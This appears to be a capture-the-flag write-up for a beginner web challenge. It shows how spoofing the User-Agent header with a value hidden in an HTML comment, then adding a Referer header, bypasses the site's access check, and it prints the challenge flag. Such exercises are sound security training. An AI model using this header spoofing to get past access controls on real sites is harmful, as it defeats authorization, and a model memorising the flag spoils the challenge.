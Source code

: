 Try to bypass my security measure on this site! http://165.227.106.113/header.php

##########################################

So if we get in the ip, we will get this:
```
Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0 
```

So we have to edit our `User-Agent` variable...

If you check source code,you will see this:
```
Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
<!-- Sup3rS3cr3tAg3nt  -->
```

So let's try change the `User-Agent` to `Sup3rS3cr3tAg3nt`:
```
Host: 165.227.106.113
User-Agent: Sup3rS3cr3tAg3nt
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0, no-cache
Pragma: no-cache
```

Then we will get this as response:
```
Sorry, it seems as if you did not just come from the site, "awesomesauce.com". 
```

So that means we should add `Referer: awesomesauce.com`
```
Host: 165.227.106.113
User-Agent: Sup3rS3cr3tAg3nt
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: awesomesauce.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0, no-cache
Pragma: no-cache
```

And then we will get this:
```
Here is your flag: flag{did_this_m3ss_with_y0ur_h34d}
```

Flag: flag{did_this_m3ss_with_y0ur_h34d}
